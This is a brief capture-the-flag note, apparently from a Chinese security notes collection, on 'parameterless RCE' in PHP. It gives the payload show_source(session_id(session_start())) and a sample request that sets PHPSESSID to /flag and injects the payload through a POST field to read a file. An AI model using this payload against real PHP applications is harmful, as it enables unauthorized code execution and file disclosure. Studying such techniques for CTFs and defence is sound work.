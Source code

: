 
# 无参数rce
* [Ezrce](https://mp.weixin.qq.com/s/lTcijxa9eoWMm0TRKwJh_A)

```php
show_source(session_id(session_start()));

/*
// 请求
Cookie: PHPSESSID=/flag
...
Upgrade-Insecure-Requests:1

name=hahaha&qaq=show_source%28session_id%28session_start%28%29%29%29%3b
*/
```